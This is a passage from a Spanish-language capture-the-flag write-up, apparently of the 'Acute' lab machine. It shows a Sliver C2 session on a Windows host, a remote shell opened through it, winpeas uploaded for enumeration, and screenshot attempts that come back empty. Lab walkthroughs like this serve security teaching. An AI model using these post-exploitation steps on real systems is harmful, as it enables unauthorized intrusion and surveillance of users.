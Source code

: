 ```console
```

Y así conseguimos una consola interactiva.
```console
[server] sliver (DEVELOPING_BELL) > use 9245de33

[*] Active session DEVELOPING_BELL (9245de33-b907-4773-b485-2eec5d075b77)

[server] sliver (DEVELOPING_BELL) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 3176

PS C:\> whoami
whoami
acute\edavies
```

Nos vamos a subir el `winpeas` para echar un vistazo.
```console
[server] sliver (DEVELOPING_BELL) > upload winpeas.exe C:\Utils\\winpeas.exe

[*] Wrote file to C:\Utils\winpeas.exe

```

Al lanzarlo encontramos lo siguiente, parece que el `edavies` verdadero tiene una sesión abierta a través de RDP.
![Write-up Image](images/Screenshot_9.png)

Podemos intentar a hacer capturas de pantalla pero por alguna razón el archivo pesa 0 Bytes.
```console
[server] sliver (DEVELOPING_BELL) > screenshot

[*] Screenshot written to /tmp/screenshot_Acute-PC01_20240906223745_3502346932.png (0 B)

[server] sliver (DEVELOPING_BELL) > screenshot

[*] Screenshot written to /tmp/screenshot_Acute-PC01_20240906223748_264897519.png (0 B)
```
 
Vamos a utilizar momentáneamente `metasploit` para ver si podemos conseguir capturas de pantalla de esta forma.
